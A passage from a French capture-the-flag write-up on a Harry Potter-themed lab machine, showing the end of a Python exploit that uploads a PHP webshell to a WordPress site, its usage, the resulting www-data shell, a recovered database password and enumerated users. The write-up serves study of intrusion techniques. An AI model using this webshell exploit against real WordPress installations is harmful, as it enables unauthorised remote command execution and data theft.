 ```python
            shell_url = get_root_url(url) + str(Path(data['added'][0]['url']).resolve()).lstrip("/")
            print(f"Success! Get your shell here: {shell_url}")
        else:
            print(f"Failure! {data}")
    else:
        print(f"Error: Server replied with HTTP {response.status_code}")

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} http://target/path_to_wordpress/ [optional_php_shell_filename]")
    print("Default shell just call system($_GET['cmd'])")
    sys.exit()

attack(sys.argv[1], None if len(sys.argv) < 3 else sys.argv[2])
```

Sur le blog on remarque le nom d'hôte *wordpress.aragog.hogwarts* que j'ai ajouté à mon */etc/hosts* au cas où.  

L'exploit s'utilise de cette manière :   

```bash
$ python exploit.py http://wordpress.aragog.hogwarts/blog/
```

Par défaut il exploite la vulnérabilité pour uploader un bête webshell qui prend la commande à exécuter dans le paramètre *cmd*. Mais on peut rajouter comme second argument un nom de fichier à uploader à la place, ce qui est bien pratique pour rapatrier des outils supplémentaires :)  

Sans trop de surprise on a les droits de l'user web :  

```plain
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Le Wordpress est installé dans */usr/share/wordpress/* ce qui me semble moins banal mais l'explication est qu'il a été installé via un paquet de la distribution (*Debian Buster 10*).  

Ainsi on retrouve le fichier de configuration dans */etc/wordpress/config-default.php* avec les accès à la base de données :  

```php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mySecr3tPass');
define('DB_HOST', 'localhost');
```

Mon royaume pour un shell
-------------------------

Je relève deux utilisateurs sur le système :  

```plain
uid=1001(ginny) gid=1001(ginny) groups=1001(ginny)
uid=1000(hagrid98) gid=1000(hagrid98) groups=1000(hagrid98)
```
